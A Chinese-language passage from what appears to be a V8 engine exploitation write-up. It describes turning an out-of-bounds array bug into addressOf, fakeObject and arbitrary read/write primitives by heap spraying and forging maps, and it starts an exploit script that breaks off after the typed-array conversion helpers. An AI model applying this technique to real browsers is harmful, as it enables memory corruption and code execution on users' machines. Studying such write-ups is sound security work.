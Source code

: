   
有了一个oob的原语，下面的思路比较固定，我构造了这样的一个结构，首先堆喷一个victim_array（用对象初始化），这样Elements的地址相较于oob_array会相对稳定（这里笔者的机器信息见下方，然后这里oob_array的Elements在笔者机器上的offset稳定为0x219）。  
  
  
接着利用oob_array的oob去修改victim_array的elements元素，布置伪造的map（根据版本动态修改）和对象，然后布置这个fake_obj_addr，便于后续伪造fake_object，也就是一步到位直接有fakeObject原语了。  
  
  
然后victim_array的Elements首部可以布置一个obj，这样方便写addressOf的原语，通过oob_array越界写。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HpNY8Y8SDFbRWkQbTlo6n7rwj92h0jyIbltBMPzSLt3bKUJTCuHhtF2Fmt46vv0jDkrvEmxK1HSQ/640?wx_fmt=png&from=appmsg "")  
![]( "")  
  
  
笔者机器使用的环境  
  
  

```
➜  x64.release git:(11.5.150.16) ldd --version
ldd (Ubuntu GLIBC 2.35-0ubuntu3.10) 2.35
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
Written by Roland McGrath and Ulrich Drepper.
➜  x64.release git:(11.5.150.16) lsb_release -a  
No LSB modules are available.
Distributor ID:Ubuntu
Description:Ubuntu 22.04.4 LTS
Release:22.04
Codename:jammy
```

  
  
****  
**遇到的一些问题**  
  
  
◆使用gdb调试的时候堆布局与直接使用shell运行不一样，最后笔者使用gdb attach解决了  
  
  
◆有了addressOf和fakeObject之后，AAR和AAW的功能必须是通过一个一个语句实现，编写函数则无法成功，很奇怪的问题  
  
  
◆使用oob_array的越界读功能读到一些地址会crash。一开始的思路是通过布置一个特征值，然后越界读，确定地址，然后接着后续利用，但是因为这个所以暂时先放弃了（不过布置下堆，缩小遍历的范围，应该还是可行的  
  
  
◆victim_array的elements因为是对象初始化的，所以索引的时候应该是offset/4  
  
  
exp  
> 笔者机器上，堆喷射后victim_array的elements地址只有这两个情况，0x2423cd和0x2423e9  
  
  

```
var buf = new ArrayBuffer(8);
var f32 = new Float32Array(buf);
var f64 = new Float64Array(buf);
var u8 = new Uint8Array(buf);
var u16 = new Uint16Array(buf);
var u32 = new Uint32Array(buf);
var u64 = new BigUint64Array(buf);


function lh_u32_to_f64(l,h){
    u32[0] = l;
    u32[1] = h;
return f64[0];
}
function f64_to_u32l(val){
```